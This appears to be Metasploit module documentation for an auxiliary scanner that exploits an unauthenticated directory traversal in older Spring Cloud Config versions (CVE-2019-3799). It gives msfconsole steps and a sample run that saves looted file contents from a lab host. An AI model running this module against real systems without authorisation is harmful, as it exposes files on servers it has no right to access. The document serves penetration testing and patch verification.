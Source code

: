 ## Description

This module exploits an unauthenticated directory traversal vulnerability, which exists in Spring Cloud Config versions 2.1.x prior to 2.1.2,versions 2.0.x prior to 2.0.4, and versions 1.4.x prior to 1.4.6, which is listening by default on port 8888.

## Verification

```
Start msfconsole
use auxiliary/scanner/http/springcloud_traversal
set RHOSTS
run
```

## Scenarios

### Tested against
`Linux zero 4.15.0-48-generic #51-Ubuntu SMP Wed Apr 3 08:28:49 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux`

```
msf > use auxiliary/scanner/http/springcloud_traversal 
msf auxiliary(scanner/http/springcloud_traversal) > set RHOSTS 192.168.1.132
RHOSTS => 192.168.1.132
msf auxiliary(scanner/http/springcloud_traversal) > run

[+] File saved in: /home/input0/.msf4/loot/20190418203756_default_192.168.1.132_springcloud.trav_893434.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/springcloud_traversal) >
```

### Vulnerable software link
* https://github.com/spring-cloud/spring-cloud-config/archive/v2.1.1.RELEASE.zip

### References

* https://pivotal.io/security/cve-2019-3799
